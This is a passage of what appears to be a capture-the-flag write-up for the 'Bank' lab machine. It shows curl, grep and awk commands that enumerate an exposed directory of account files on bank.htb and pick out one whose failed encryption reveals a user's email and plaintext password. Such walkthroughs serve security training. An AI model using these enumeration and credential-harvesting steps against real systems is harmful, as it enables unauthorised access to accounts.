 I went inot curl to see how the site worked, and I noticed something weird - the 305,302 redirect on the root was pretty big in size:

```bash
curl -s -X GET "http://bank.htb/uploads" -L
```
```bash
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access /uploads/
on this server.</p>
<hr>
<address>Apache/2.4.7 (Ubuntu) Server at bank.htb Port 80</address>
</body></html>
```

Let's go to folder *blance-transfer*

provided a directory list with a lot of .acc files, each of which is 32 hex characters (MD5?):

```bash
echo -n "fc73548dc690c238c5aff9cb9e440498" | wc -c
```
```bsah
32
```
```bash
curl -s http://bank.htb/balance-transfer/ | grep -F '.acc' | wc -l
```
I can grep on .acc to get just the table rows showing files (-F so that . is an actual period and not a wildcard for any character). There are 999 files:

```bash
curl -s -X GET "http://bank.htb/balance-transfer/" | grep -oP '[a-x0-9]{32}\.acc.*"right".+\s' | awk '{print $1 " -> " $7}' FS=">" | tr -d '"' | sort -k3 -n | head -n 10
```
257 is a much smaller size. If I look at all the sizes in a histogram, I can see all of the other files are between 581 and 585 bytes:
```bash
68576f20e9732f1b2edc4df5b8533230.acc -> 257 
09ed7588d1cd47ffca297cc7dac22c52.acc -> 581 
941e55bed0cb8052e7015e7133a5b9c7.acc -> 581 
052a101eac01ccbf5120996cdc60e76d.acc -> 582 
0d64f03e84187359907569a43c83bddc.acc -> 582 
10805eead8596309e32a6bfe102f7b2c.acc -> 582 
20fd5f9690efca3dc465097376b31dd6.acc -> 582 
346bf50f208571cd9d4c4ec7f8d0b4df.acc -> 582 
70b43acf0a3e285c423ee9267acaebb2.acc -> 582 
780a84585b62356360a9495d9ff3a485.acc -> 582
```
I’ll open that file, and it seems the encryption failed:
```bash
curl -s -X GET "http://bank.htb/balance-transfer/68576f20e9732f1b2edc4df5b8533230.acc"
```
```bash
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
```